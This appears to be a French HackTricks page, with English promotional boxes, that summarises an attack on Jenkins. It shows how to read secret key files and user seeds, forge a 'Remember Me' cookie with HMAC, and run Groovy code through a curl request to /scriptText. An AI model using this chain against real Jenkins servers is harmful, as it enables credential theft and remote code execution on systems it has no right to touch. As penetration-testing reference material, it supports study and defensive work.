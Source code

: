 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Dans cet article de blog, il est possible de trouver un excellent moyen de transformer une vulnérabilité d'inclusion de fichier local dans Jenkins en RCE : [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Ceci est un résumé créé par IA de la partie du post où la création d'un cookie arbitraire est exploitée pour obtenir RCE en abusant d'une lecture de fichier local jusqu'à ce que j'ai le temps de créer un résumé par moi-même :

### Prérequis à l'attaque

* **Exigence de fonctionnalité :** "Se souvenir de moi" doit être activé (paramètre par défaut).
* **Niveaux d'accès :** L'attaquant a besoin de permissions Globales/Lecture.
* **Accès secret :** Capacité à lire à la fois le contenu binaire et textuel de fichiers clés.

### Processus d'exploitation détaillé

#### Étape 1 : Collecte de données

**Récupération d'informations utilisateur**

* Accéder à la configuration utilisateur et aux secrets depuis `$JENKINS_HOME/users/*.xml` pour chaque utilisateur afin de rassembler :
* **Nom d'utilisateur**
* **Graine utilisateur**
* **Horodatage**
* **Hash de mot de passe**

**Extraction de clé secrète**

* Extraire les clés cryptographiques utilisées pour signer le cookie :
* **Clé secrète :** `$JENKINS_HOME/secret.key`
* **Clé maître :** `$JENKINS_HOME/secrets/master.key`
* **Fichier de clé MAC :** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Étape 2 : Forgement de cookie

**Préparation du jeton**

*   **Calculer le temps d'expiration du jeton :**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Ajoute une heure au temps actuel
```
{% endcode %}
*   **Concaténer les données pour le jeton :**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Déchiffrement de la clé MAC**

*   **Déchiffrer le fichier de clé MAC :**

```javascript
key = toAes128Key(masterKey)  // Convertir la clé maître en format de clé AES128
decrypted = AES.decrypt(macFile, key)  // Déchiffrer le fichier .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Calcul de la signature**

*   **Calculer HMAC SHA256 :**

```javascript
mac = HmacSHA256(token, macKey)  // Calculer HMAC en utilisant le jeton et la clé MAC
tokenSignature = bytesToHexString(mac)  // Convertir la MAC en chaîne hexadécimale
```

**Encodage du cookie**

*   **Générer le cookie final :**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Encoder en base64 les données du cookie
```
{% endcode %}

#### Étape 3 : Exécution de code

**Authentification de session**

* **Récupérer les jetons CSRF et de session :**
* Faire une requête à `/crumbIssuer/api/json` pour obtenir `Jenkins-Crumb`.
* Capturer `JSESSIONID` de la réponse, qui sera utilisé en conjonction avec le cookie "se souvenir de moi".

**Requête d'exécution de commande**

*   **Envoyer une requête POST avec un script Groovy :**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Le script Groovy peut être utilisé pour exécuter des commandes au niveau système ou d'autres opérations dans l'environnement Jenkins.

L'exemple de commande curl fourni démontre comment faire une requête à Jenkins avec les en-têtes et cookies nécessaires pour exécuter du code arbitraire en toute sécurité.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
